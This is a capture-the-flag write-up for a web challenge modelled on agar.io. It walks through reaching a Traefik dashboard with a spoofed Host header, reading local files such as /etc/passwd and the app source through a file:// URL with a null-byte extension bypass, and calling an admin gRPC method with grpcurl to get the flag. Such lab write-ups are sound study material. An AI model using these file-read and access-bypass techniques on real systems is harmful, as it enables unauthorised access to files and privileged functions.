




# \[Web] Agar-Agar

## TL;DR

* We are given a web game like agar.io and needs to activate God Mode to get the flag
* the challenge description tells us that it uses Traefik for a proxy and a gRPC server for game logic
* We can access the traefik dashboard by changing the Host header to  "traefik.gemas.tik"
* In the dashboard, we can go to /api/rawdata to see all open endpoint and found that there is a public gRPC server we can communicate to
* from the agar.io game itself, we find an LFI vulnerability and found the game.proto used for the gRPC server
* Using the game.proto, we can then do a grpcurl to the public endpoint and set God Mode on our character.
* Profit

Flag: GEMASTIK18{g0d\_m0d3\_4ct1v4t3d\_1nf1n1t3\_p0w3r}

## Description

<figure><figcaption></figcaption></figure>

There's more but I'll just put the important ones at [#overview](web-agar-agar.md#overview "mention")

Hint:

> some chat from ctf-er that play agar agar&#x20;
>
> a: look at the traefik we can do something about it to leak backend?&#x20;
>
> b: idk bruh banckend leak in traefik is it even possible?&#x20;
>
> a: idk idk idk maybe? but we already got some info from author right, maybe we can do something with it? i think i don't know\
> traefik much to actually hack it, let me check what this mean and what\
> that's mean.&#x20;
>
> a: (actually hack it)&#x20;
>
> b: that's crazy, you're crazy dude. how\
> do you even connect with it and get the flag?&#x20;
>
> a: shusshhht,,, (sigma pose)\
> b: you're not fun... :(

## Overview

We are given a web game like agar.io where we can play the game as normal. There is boost, we can rename and we can change our character picture to an image of our choosing with an URL pointing to the image we want.

<figure><figcaption></figcaption></figure>

The Important part is the details of the web game from the challenge description. There are many details but to summarize it,&#x20;

<figure><figcaption></figcaption></figure>

the web game consist of three parts

* the frontend where we (client) plays the agar.io game,
* a Load Balancer using Traefik
* Game Server using gRPC


From the Challenge description we also get some of the Traefik configuration

<figure><figcaption></figcaption></figure>

The important thing is that the Dashboard is accessible at <mark style="color:blue;">https://traefik.gemas.tik</mark>&#x20;

We also given some description about the gRPC server being used.&#x20;

<table><thead><tr><th width="143">RPC Method </th><th width="116">Direction</th><th>Purpose</th></tr></thead><tbody><tr><td>StreamState</td><td>Server → Client<br>(stream)</td><td>Streams world snapshots at a target<br>tick rate.</td></tr><tr><td>SendInput</td><td>Client → Server</td><td>Sends player movement or action inputs.</td></tr><tr><td>StartBoost</td><td>Client → Server</td><td>Initiates a player speed boost.</td></tr><tr><td>EndBoost</td><td>Client → Server</td><td>Ends a player speed boost.</td></tr><tr><td>SetName</td><td>Client → Server</td><td>Sets the player's display name.</td></tr><tr><td>Disconnect</td><td>Client → Server</td><td>Disconnects a player from the game.</td></tr><tr><td>Welcome</td><td>Server → Client</td><td>Sends initial world info &#x26; player ID.</td></tr><tr><td>ToggleGodMode</td><td>Client ↔ Server</td><td>Enables/disables god mode for a player<br>(admin only).</td></tr></tbody></table>

```protobuf
protobuf
syntax = "proto3";
package game;
option go_package = "./ctf;gamepb";
service GameService {
// Server-streamed world snapshots at a target tick rate
rpc StreamState(Empty) returns (stream State);
// Input/control
rpc SendInput(...) returns (...);
rpc StartBoost(...) returns (...);
rpc EndBoost(...) returns (...);
rpc SetName(...) returns (...);
rpc Disconnect(...) returns (...);
// Optional one-shot welcome/world info
rpc Welcome(...) returns (...);
// Debug mode functionality
```

We are given some explanation for the functions used by the game server. The most interesting part is the <mark style="color:purple;">ToogleGodMode</mark> function because it needs admin and well that's typically where the flag resides.

## Solution

As this is a Black box challenge, all i can do at first was lurking around the site. thankfully the challenge description helps to give direction for the searching.&#x20;

### Part 1 - What's this Traefik thing

I have never heard about Traefik before and this is my first time encountering it so i dont know what to do with it and what it can do.&#x20;

As it was mentioned in the challenge description, I first checked about the Traefik dashboard thing. I tried going directly to <mark style="color:blue;">https://traefik.gemas.tik</mark> but it wasn't found.

It turns out what I need to do was change the Host header to <mark style="color:blue;">traefik.gemas.tik</mark> to access the dashboard.&#x20;

<figure><figcaption></figcaption></figure>

and just like that we can access the Traefik dashboard.

Looking up traefik documentation, we can see some interesting endpoints in this dashboard. The one I find the most beneficial to see was the <mark style="color:$success;">/api/rawdata</mark> endpoint as it just shows all the endpoints and services that the web server has.&#x20;

Fetching that endpoint gives us this,

```json
{
	"routers": {
    	"frontend@docker": {
        	"entryPoints": [
            	"websecure"
        	],
        	"service": "frontend",
        	"rule": "HostRegexp(`agar.dimasc.tf`)",
        	"priority": 28,
        	"tls": {},
        	"observability": {
            	"accessLogs": true,
            	"metrics": true,
            	"tracing": true,
            	"traceVerbosity": "minimal"
        	},
        	"status": "enabled",
        	"using": [
            	"websecure"
        	]
    	},
    	"traefik@docker": {
        	"entryPoints": [
            	"websecure"
        	],
        	"service": "api@internal",
        	"rule": "Host(`traefik.gemas.tik`)",
        	"priority": 25,
        	"tls": {},
        	"observability": {
            	"accessLogs": true,
            	"metrics": true,
            	"tracing": true,
            	"traceVerbosity": "minimal"
        	},
        	"status": "enabled",
        	"using": [
            	"websecure"
        	]
    	}
	},
	"services": {
    	"api@internal": {
        	"status": "enabled",
        	"usedBy": [
            	"traefik@docker"
        	]
    	},
    	"dashboard@internal": {
        	"status": "enabled"
    	},
    	"frontend@docker": {
        	"loadBalancer": {
            	"servers": [
                	{
                    	"url": "http://172.19.0.4:5000"
                	}
            	],
            	"strategy": "wrr",
            	"passHostHeader": true,
            	"responseForwarding": {
                	"flushInterval": "100ms"
            	}
        	},
        	"status": "enabled",
        	"usedBy": [
            	"frontend@docker"
        	],
        	"serverStatus": {
            	"http://172.19.0.4:5000": "UP"
        	}
    	},
    	"noop@internal": {
        	"status": "enabled"
    	},
    	"traefik-src@docker": {
        	"loadBalancer": {
            	"servers": [
                	{
                    	"url": "http://172.19.0.2:80"
                	}
            	],
            	"strategy": "wrr",
            	"passHostHeader": true,
            	"responseForwarding": {
                	"flushInterval": "100ms"
            	}
        	},
        	"status": "enabled"
    	}
	},
	"tcpRouters": {
    	"protobuf@docker": {
        	"entryPoints": [
            	"websecure"
        	],
        	"service": "protobuf",
        	"rule": "HostSNI(`protobuf.gemas.tik`)",
        	"priority": 29,
        	"tls": {
            	"passthrough": false
        	},
        	"status": "enabled",
        	"using": [
            	"websecure"
        	]
    	}
	},
	"tcpServices": {
    	"protobuf@docker": {
        	"loadBalancer": {
            	"servers": [
                	{
                    	"address": "172.19.0.3:50051"
                	}
            	]
        	},
        	"status": "enabled",
        	"usedBy": [
            	"protobuf@docker"
        	]
    	}
	}
}

```

That is a lot of information about the web server. To summarize the information, all we need to know is these three host

* agar.dimasc.tf             -> agar.io game frontend
* traefik.gemas.tik        -> traefik load balancer server
* protobuf.gemas.tik    -> grpc server that handles game logic


We'll keep these host in mind for the moment and go back to lurking the frontend.&#x20;

<mark style="color:blue;">(Actually it's because I'm stupid and didn't know about the /api/rawdata endpoint before doing this next part)</mark>

### Part 2 - LFI Moment

One of the first thing i focused on when lurking around the web game was of course the image change functionality as it takes a URL as an argument.&#x20;

This image change function does an HTTP POST request to the /skins/fetch endpoint and luckily it gives <mark style="color:$danger;">different message</mark> depending on what data you give it.&#x20;

I played around with it and tested it with&#x20;

```
url=file:///etc/password
```

and it gives this error, “URL did not return an image”

while testing it with,

```
url=file:///etc/password.jpg
```

gives this error, “ENOENT: no such file or directory, open '/etc/passwd.jpg'”

this is very promising as I believe it means the file:// protocol works it just that /etc/password.jpg doesn't exist

I tested that theory by trying to fetch an image file that would be in a default Linux distribution.

```
url=file:///usr/share/pixmaps/debian-logo.png
```

Boom!! I successfully changed my character image to the Debian logo. This confirms that the file:// protocol works there's just a restriction on the type of file it can fetch

I tinker around again to find what that restriction is and finds it just checks for the file extension and is bypass-able with a <mark style="color:$danger;">null injection</mark>. I send this parameter

```
url=file:///etc/passwd%00.jpg 
```

this returns a success message that gives me the URL of where the image is stored. I accessed that URL and yep we see the <mark style="color:$success;">/etc/passwd</mark> file content. We have successfully done a Local File Injection (LFI)

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

With this LFI, I first checked for system environment to see what information i can use. This is what I got,

```bash
npm_command=run-script
HOSTNAME=f78cda558657
NODE=/usr/local/bun-node-fallback-bin/node
npm_config_local_prefix=/app
PWD=/app
PORT=5000
GRPC_ADDR=protobuf:50051
HOME=/root
npm_package_version=1.0.0
BUN_RUNTIME_TRANSPILER_CACHE_PATH=0
npm_lifecycle_script=bun run server.js
npm_package_name=space-agar-bun
npm_lifecycle_event=start
SHLVL=0
npm_config_user_agent=bun/1.2.21 npm/? node/v24.3.0 linux x64
npm_execpath=/usr/local/bin/bun
BUN_INSTALL_BIN=/usr/local/bin
npm_package_json=/app/package.json
PATH=/app/node_modules/.bin:/app/node_modules/.bin:/node_modules/.bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/bun-node-fallback-bin
npm_node_execpath=/usr/local/bun-node-fallback-bin/node
_=/usr/local/bin/bun

```

We can find couple of things of note, we see found that the gRPC server is located at <mark style="color:$success;">protobuf:50051</mark> and see that the frontend application code source is at <mark style="color:$success;">/app</mark>, so I tried to check /app/server.js&#x20;

I found the source code and a lot of information of how the server works but the important thing is this,

<figure><figcaption></figcaption></figure>

We see that the frontend server communicates to the gRPC server with that <mark style="color:$success;">game.proto</mark> and it's location is on <mark style="color:$success;">/app/ctf/game.proto</mark>

So I fetch that file and gets this,&#x20;

```protobuf
syntax = "proto3";
package game;
option go_package = "./ctf;gamepb";

message Vec2 { float x = 1; float y = 2; }
message World { uint32 size = 1; }

message WelcomeReply { string id = 1; World world = 2; }
message Respawn { float x = 1; float y = 2; float protected_for = 3; }
message BoostStatus { float fuel = 1; bool boosting = 2; }
message Ate { string by = 1; string victim = 2; float gain = 3; }
message Bump { string id = 1; float power = 2; }

message PlayerState {
  string id = 1;
  string name = 2;
  float x = 3;
  float y = 4;
  float mass = 5;
  string color = 6;
  bool protected = 7;
  float fuel = 8;
  bool boosting = 9;
  bool debug_mode = 10;
}

message Pellet { float x = 1; float y = 2; }

message Massive { float x = 1; float y = 2; float mass = 3; }

message State {
  repeated PlayerState players = 1;
  repeated Pellet pellets = 2;
  repeated Massive stars = 3;
  repeated Massive galaxies = 4;
  repeated Massive blackholes = 5;
  repeated PlayerState leaderboard = 6;
  World world = 7;
}

// Client->Server
message Input { string id = 1; float tx = 2; float ty = 3; }
message SetNameRequest { string id = 1; string name = 2; }
message PlayerID { string id = 1; }
message PlayerName { string name = 1; }
message DebugModeNotification { string message = 1; string flag = 2; }
message DebugOptions {
  float boost_speed_multiplier = 1;
  bool infinite_stamina = 2;
  float mass_multiplier = 3;
}
message DebugModeRequest {
  string name = 1;
  DebugOptions options = 2;
}
message Empty {}

service GameService {
  // Server-streamed world snapshots at a target tick rate
  rpc StreamState(Empty) returns (stream State);
  // Input/control
  rpc SendInput(Input) returns (Empty);
  rpc StartBoost(Input) returns (Empty);
  rpc EndBoost(PlayerID) returns (Empty);
  rpc SetName(SetNameRequest) returns (Empty);
  rpc Disconnect(PlayerID) returns (Empty);
  // Optional one-shot welcome/world info
  rpc Welcome(Empty) returns (WelcomeReply);
  // Debug mode functionality
  rpc ToggleDebugMode(PlayerName) returns (DebugModeNotification);
  rpc SetDebugOptions(DebugModeRequest) returns (DebugModeNotification);
}

```

We can see that the <mark style="color:purple;">DebugModeNotification</mark> Message has a variable called flag and is returned when using the <mark style="color:purple;">ToggleDebugMode</mark> and <mark style="color:purple;">SetDebugOptions</mark> functions.


Part 3 - grpcurl FTW

We know we can communicate directly to the gRPC server through the traefik server when using the host protobuf.gemas.tik but how do we even communicate with a gRPC server in the first place? We use grpcurl.

grpcurl is designed to be like curl but for gRPC servers. Very convenient.&#x20;

We just need to set our /etc/host and adds that host

<pre><code><strong>127.0.0.1   	localhost
</strong>127.0.1.1   	Archangel
172.188.217.103 protobuf.gemas.tik
</code></pre>

<mark style="color:blue;">(172.188.217.103 was the public ip address for the ctf site)</mark>

using grpcurl, we can try to use the list command directly like this,

```
> grpcurl -insecure protobuf.gemas.tik:443 list
Failed to list services: server does not support the reflection API
```

but unfortunately we cannot directly see it as it is restricted. This is where the LFI from before comes in handy. To communicate with the gRPC server, we need that game.proto file we get from the LFI.&#x20;

with that game.proto file, we can do this,

```bash
> grpcurl -insecure -proto ./game.proto \
-d '{"name": "your-player-name"}' \ 
protobuf.gemas.tik:443 game.GameService/ToggleDebugMode

{
    "message": "Debug Mode ACTIVATED! Use 
    SetDebugOptions to configure boost speed, infinite stamina, 
    and mass multipliers."
}
```

and this to get the flag

```bash
> grpcurl -proto game.proto -insecure -d '{
  "name": "your-player-name",
  "options": {
	"boost_speed_multiplier": 2.0,
	"infinite_stamina": true,
	"mass_multiplier": 10.0
  }
}' protobuf.gemas.tik:443 game.GameService/SetDebugOptions

{

    "message": "Debug options updated: Boost Speed 
    Multiplier=2.0, Infinite Stamina =true, 
    Mass Multiplier=10.0",
    "flag": "GEMASTIK18{g0d_m0d3_4ct1v4t3d_1nf1n1t3_p0w3r}"

}
```

Flag: GEMASTIK18{g0d\_m0d3\_4ct1v4t3d\_1nf1n1t3\_p0w3r}

## Afterthought

It was very interesting as it was my first time encountering with Traefik and gRPC. Thankfully, I was able to solve it in time to get the flag within the duration of the competition.&#x20;

## Links

References:




